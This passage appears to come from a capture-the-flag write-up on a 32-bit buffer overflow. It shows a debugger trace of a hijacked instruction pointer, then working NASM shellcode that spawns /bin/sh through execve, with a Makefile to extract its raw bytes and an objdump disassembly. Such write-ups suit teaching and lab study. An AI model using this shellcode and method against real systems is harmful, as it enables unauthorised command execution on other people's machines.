 ```nasm
...TRIM...
Invalid $PC address: 0x42424242
...TRIM...
0x42424242 in ?? ()
```

As seen above, registers eax, esp, eip, ebp are overwritten. The goal of this challenge is to obtain a command execution on target host. So we need to let target jump to our shellcode. As seen above, it's possible to write our shellcode to several places. I chose **eax** register at this time. 

#### 2.2 Quick Solution

Let's write a basic shellcode (exploit.asm).

```nasm
section .text
	global _start

_start:
	xor eax, eax ; cleaning up -> safe null
	push eax ; null-byte onto stack since it's a terminator
	push 'n/sh' ; //bi + n/sh -> 4 + 4 bytes since '//'=='/'
	push '//bi' 
	mov ebx, esp ; set ebx to out
	xor ecx, ecx ; cleaning up -> no args 
	xor edx, edx ; cleaning up -> no args
	mov al, 11 ; syscall  ->  execve()
	int 80h ; call kernel
```


Compiling our shellcode.

```
$ cat Makefile
all:
	nasm -f elf32 exploit.asm -o exploit.o
	ld -m elf_i386 exploit.o -o exploit
	rm exploit.o
	objcopy -O binary exploit exploit.bin

$ make
```

By help of **objcopy**, we copied the **.text section** in raw-hex format into the **exploit.bin** file.

```nasm
$ objdump -D exploit -M intel

exploit:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c0                	xor    eax,eax
 8048062:	50                   	push   eax
 8048063:	68 6e 2f 73 68       	push   0x68732f6e
 8048068:	68 2f 2f 62 69       	push   0x69622f2f
 804806d:	89 e3                	mov    ebx,esp
 804806f:	31 c9                	xor    ecx,ecx
 8048071:	31 d2                	xor    edx,edx
 8048073:	b0 0b                	mov    al,0xb
 8048075:	cd 80                	int    0x80
```
